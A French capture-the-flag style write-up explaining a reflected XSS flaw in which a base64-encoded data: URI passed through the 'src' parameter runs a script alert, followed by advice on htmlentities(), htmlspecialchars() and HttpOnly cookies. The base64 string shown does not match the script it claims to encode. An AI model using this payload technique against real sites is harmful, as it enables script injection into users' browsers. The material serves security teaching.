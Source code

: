 # XSS BASE 64

plus d'infos sur:
http://venom630.free.fr/geo/tutz/securite_informatique/xss/

Ici on est sur une faille xss en get qui doit etre encoder en base64,
on peut voir que sur la page index.php
on a une image qui est cliquable, et qui redirige 
vers une autre page avec le chemin de l'image en argument.
si on encode
```<script>alert("Bonjour les amis");</script> 
```
en base64, on obtient:
```
PHNjcmlwdD5hbGVydCgiSGVsbG8hIEkgYW0gYW4gYWxlcnQgYm94ISEiKTs8L3NjcmlwdD4=
```
afin que le navigateur interprete le html nous prefixons le hash de 
```
data:text/html;base64,
```
ce qui donne:
```
data:text/html;base64, PHNjcmlwdD5hbGVydCgiSGVsbG8hIEkgYW0gYW4gYWxlcnQgYm94ISEiKTs8L3NjcmlwdD4=
```

on va ensuite modifier le lien 
```
<a href="?page=media&src=nsa">
```
par:
```
<a href="?page=media&src=data:text/html;base64, PHNjcmlwdD5hbGVydCgiSGVsbG8hIEkgYW0gYW4gYWxlcnQgYm94ISEiKTs8L3NjcmlwdD4=">
````
et l'on obtient le flag:


## Comment s'en premunir

Il faut absolument utiliser les fonctions php
```
htmlentities()
```
qui filtre toutes les entités html.
OU
```

htmlspecialchars()
```
qui filtre toutes les entités html, permet par exemple de filtrer les symboles du type <, & ou encore ", en les remplaçant par leur équivalent en HTML. Par exemple :
 ```
Le symbole & devient &amp;

Le symbole " devient &quot;

Le symbole ' devient &#39;
```
Au possible, il faut placer des cookies avec le paramètre HttpOnly, empêchant leur récupération avec JavaScript (Attention elle n’est pas forcément supportée par tous les navigateurs).
